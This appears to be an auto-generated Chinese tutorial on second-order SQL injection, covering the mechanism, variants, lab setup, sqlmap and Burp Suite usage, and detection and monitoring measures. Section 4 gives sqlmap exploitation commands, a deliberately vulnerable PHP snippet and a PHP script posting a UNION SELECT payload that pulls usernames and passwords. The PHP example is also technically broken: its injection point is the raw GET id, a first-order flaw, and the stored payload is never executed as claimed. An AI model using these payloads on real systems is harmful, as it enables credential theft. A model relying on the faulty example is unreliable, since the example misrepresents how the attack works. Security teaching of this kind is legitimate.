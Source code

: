 # 二阶SQL注入攻击的检测与监控

## 1. 技术原理解析

### 1.1 二阶SQL注入攻击概述
二阶SQL注入攻击是一种特殊类型的SQL注入攻击，其特点在于攻击者提交的恶意输入并不会立即触发SQL注入，而是被存储在数据库中，随后在另一个查询中被使用，从而引发SQL注入。这种攻击方式比传统的一阶SQL注入更为隐蔽，因为攻击者在注入时无法直接观察到结果，而是需要等待后续的查询操作。

### 1.2 底层实现机制
二阶SQL注入攻击的底层机制主要涉及以下几个步骤：
1. **输入存储**：攻击者通过应用程序的输入接口提交恶意SQL代码，这些代码被存储在数据库中，而不是立即执行。
2. **后续查询**：在应用程序的后续操作中，存储的恶意代码被提取并用于构建新的SQL查询。
3. **恶意代码执行**：当新的SQL查询被执行时，恶意代码被解析并执行，从而导致SQL注入攻击。

### 1.3 攻击流程
1. **输入提交**：攻击者通过表单、URL参数等方式提交恶意输入。
2. **数据存储**：应用程序将恶意输入存储在数据库中。
3. **数据提取**：在后续的查询中，应用程序从数据库中提取存储的数据。
4. **查询构建**：提取的数据被用于构建新的SQL查询。
5. **恶意执行**：新的SQL查询被执行，恶意代码被解析并执行。

## 2. 变种与高级利用技巧

### 2.1 变种
1. **时间延迟注入**：攻击者通过构造恶意输入，使得在后续查询中执行时间延迟操作，从而间接推断出数据库信息。
2. **布尔盲注**：攻击者通过构造恶意输入，使得在后续查询中返回不同的布尔值，从而推断出数据库信息。
3. **联合查询注入**：攻击者通过构造恶意输入，使得在后续查询中执行联合查询，从而获取额外的数据。

### 2.2 高级利用技巧
1. **多阶段注入**：攻击者通过多次提交恶意输入，逐步获取数据库信息。
2. **绕过过滤**：攻击者通过编码、混淆等方式绕过应用程序的输入过滤机制。
3. **利用存储过程**：攻击者通过构造恶意输入，使得在后续查询中调用存储过程，从而执行恶意操作。

## 3. 攻击步骤与实验环境搭建指南

### 3.1 攻击步骤
1. **环境准备**：搭建一个包含漏洞的Web应用程序和数据库。
2. **恶意输入提交**：通过应用程序的输入接口提交恶意SQL代码。
3. **数据存储**：观察恶意输入是否被成功存储在数据库中。
4. **后续查询触发**：通过应用程序的后续操作触发存储的恶意代码。
5. **结果观察**：观察恶意代码是否被成功执行，并获取数据库信息。

### 3.2 实验环境搭建
1. **Web应用程序**：使用一个包含SQL注入漏洞的Web应用程序，如DVWA（Damn Vulnerable Web Application）。
2. **数据库**：使用MySQL或PostgreSQL作为后端数据库。
3. **工具准备**：准备SQL注入检测工具，如SQLMap、Burp Suite等。

## 4. 实际命令、代码与工具使用说明

### 4.1 SQLMap使用
SQLMap是一款自动化的SQL注入工具，可以用于检测和利用SQL注入漏洞。

#### 4.1.1 检测二阶SQL注入
```bash
sqlmap -u "http://example.com/vulnerable_page.php?id=1" --level=5 --risk=3 --second-order "http://example.com/second_order_page.php"
```
- `-u`：指定目标URL。
- `--level`：设置检测等级，等级越高，检测越全面。
- `--risk`：设置风险等级，等级越高，检测越激进。
- `--second-order`：指定二阶SQL注入的触发页面。

#### 4.1.2 利用二阶SQL注入
```bash
sqlmap -u "http://example.com/vulnerable_page.php?id=1" --second-order "http://example.com/second_order_page.php" --dbs
```
- `--dbs`：获取数据库列表。

### 4.2 Burp Suite使用
Burp Suite是一款常用的Web应用程序安全测试工具，可以用于手动检测和利用SQL注入漏洞。

#### 4.2.1 检测二阶SQL注入
1. **拦截请求**：使用Burp Suite拦截应用程序的请求。
2. **修改参数**：修改请求参数，插入恶意SQL代码。
3. **观察响应**：观察应用程序的响应，判断是否存在SQL注入漏洞。

#### 4.2.2 利用二阶SQL注入
1. **存储恶意输入**：通过应用程序的输入接口提交恶意SQL代码。
2. **触发后续查询**：通过应用程序的后续操作触发存储的恶意代码。
3. **观察结果**：观察恶意代码是否被成功执行，并获取数据库信息。

### 4.3 代码示例
以下是一个简单的PHP代码示例，展示了如何通过二阶SQL注入攻击获取数据库信息。

#### 4.3.1 漏洞代码
```php
<?php
// 连接数据库
$conn = new mysqli("localhost", "root", "password", "test");

// 存储用户输入
if (isset($_POST['submit'])) {
    $input = $_POST['input'];
    $stmt = $conn->prepare("INSERT INTO user_input (input) VALUES (?)");
    $stmt->bind_param("s", $input);
    $stmt->execute();
}

// 后续查询
if (isset($_GET['id'])) {
    $id = $_GET['id'];
    $result = $conn->query("SELECT input FROM user_input WHERE id = $id");
    if ($result->num_rows > 0) {
        $row = $result->fetch_assoc();
        echo $row['input'];
    }
}
?>
```

#### 4.3.2 攻击代码
```php
<?php
// 提交恶意输入
$input = "1' UNION SELECT username, password FROM users -- ";
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, "http://example.com/vulnerable_page.php");
curl_setopt($ch, CURLOPT_POST, 1);
curl_setopt($ch, CURLOPT_POSTFIELDS, "input=$input&submit=Submit");
curl_exec($ch);
curl_close($ch);

// 触发后续查询
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, "http://example.com/vulnerable_page.php?id=1");
curl_exec($ch);
curl_close($ch);
?>
```

## 5. 检测与监控方法

### 5.1 输入验证与过滤
1. **白名单验证**：只允许特定的字符或格式通过验证。
2. **黑名单过滤**：过滤掉常见的SQL注入字符，如单引号、分号等。
3. **参数化查询**：使用参数化查询或预编译语句，避免直接拼接SQL查询。

### 5.2 日志监控
1. **数据库日志**：监控数据库的查询日志，检测异常的SQL查询。
2. **应用程序日志**：监控应用程序的日志，检测异常的输入和输出。

### 5.3 安全工具
1. **WAF（Web应用防火墙）**：使用WAF检测和阻止SQL注入攻击。
2. **IDS/IPS（入侵检测/防御系统）**：使用IDS/IPS检测和阻止SQL注入攻击。

### 5.4 代码审计
1. **静态代码分析**：使用静态代码分析工具检测潜在的SQL注入漏洞。
2. **动态代码分析**：使用动态代码分析工具检测运行时的SQL注入漏洞。

## 6. 总结
二阶SQL注入攻击是一种隐蔽且危险的攻击方式，检测和监控这种攻击需要综合运用多种技术和方法。通过深入理解其技术原理、掌握高级利用技巧、搭建实验环境、使用安全工具以及实施有效的检测与监控措施，可以有效地防御和应对二阶SQL注入攻击。

---

*文档生成时间: 2025-03-11 14:05:02*
